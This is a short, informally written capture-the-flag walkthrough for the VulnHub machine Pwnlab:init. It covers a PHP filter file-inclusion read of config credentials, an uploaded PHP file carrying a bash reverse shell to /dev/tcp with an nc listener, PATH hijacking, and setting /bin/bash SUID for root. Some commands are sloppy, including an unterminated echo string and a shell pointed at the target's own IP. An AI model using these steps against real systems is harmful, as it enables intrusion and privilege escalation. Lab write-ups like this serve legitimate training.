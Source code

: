 


# Pwnlab:init Walkthrough 

**VulnHub Link:** [Pwnlab:init](https://www.vulnhub.com/entry/pwnlab-init,158/)
**Difficulty:** Easy
**Release Date:** 1 Aug 2016

## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.176
```


## 2.Web Enumeration

```bash
dirb http://192.168.100.176
```

we found out that we can filter from url

we add this after ?/ --->

php://filter/convert.base64-encode/resource=config

```bash
echo "encoded" | base64 -d
```

<?php
$server   = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>



```bash
mysql -h 192.168.100.176 -u root -p
```
+------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== |
| kane | aVN2NVltMkdSbw== |
+------+------------------+

we decoded kent password and logged in web page

```php
<?php
    echo "<pre>";
    echo "bash -c 'bash -i >& /dev/tcp/192.168.100.176/1234 0>&1';
    echo "</pre>";
?>
```

in another page , we changed it phpsessionid to lang=../upload/<your id>

another webpage http://192.168.100.176/?page=php://filter/convert.base64-encode/resource=index

dont forget 
```bash
rlwrap nc -nvlp 1234
```

www-data shell opened and then found out that kane user's decoded password is his password in machine
```bash
echo "/bin/bash" > /tmp/cat
chmod +x /tmp/cat
export PATH=/tmp:$PATH
./msgmike
```

## 3.Privilege Escalation

we got mike shell
```bash
./msg2root
chmod u+s /bin/bash
```

now /bin/bash has suid byte

but we cant read flag.txt from /root

```bash
python -m SimpleHTTPServer 8080
(in our machine)
wget http://192.168.100.176/flag.txt
```
